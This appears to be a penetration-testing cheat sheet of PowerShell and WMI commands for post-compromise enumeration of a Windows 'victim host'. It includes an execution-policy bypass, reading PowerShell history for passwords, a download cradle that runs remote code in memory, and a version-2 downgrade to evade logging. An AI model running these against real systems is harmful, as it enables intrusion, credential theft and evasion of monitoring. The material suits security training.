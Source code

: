 | **Cmd-Let**                                                                                                                                                                        | **Description**                                                                                                                                                                                                                               |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                                                                                       | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                                                                        | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                                                                        | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                                                                               | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `Get-Content $env: APPDATA\Microsoft\Windows \Powershell\PSReadline\ ConsoleHost_history.txt`<br><br>Note that spaces have been added to this command to help better fit the table | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`                                                         | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |

Often times, defenders don't realize that there are multiple versions of PowerShell on a host. If they aren't uninstalled, they can be used; this is important since tracking only happens for PS 3.0 and onward. Here's how to do so:
```PowerShell
Get-host # Get PS Version
powershell.exe -version 2 # Change version
```
**Checking Defenses**
```PowerShell
# Firewall
netsh advfirewall show allprofiles

# Check defender from CMD
sc query windefend

# All defenses
Get-MpComputerStatus

# Checking who's logged on (make sure it's only you)
qwinsta
```
**Check Network Information**
```PowerShell
# List arp table and known hosts
arp -a

# List adapter settings
ipconfig /all

# Display routing table
route print
```
**WMI Scripting Engine**
```PowerShell
# Print patch level and hotfixes applied
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Display basic host info
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List

# List all processes
wmic process list /format:list

# List info about domains and domain constrollers
wmic ntdomain list /format:list

# List local account and domain accounts logged into device
wmic useraccount list /format:list

# List all local groups
wmic group list /format:list

```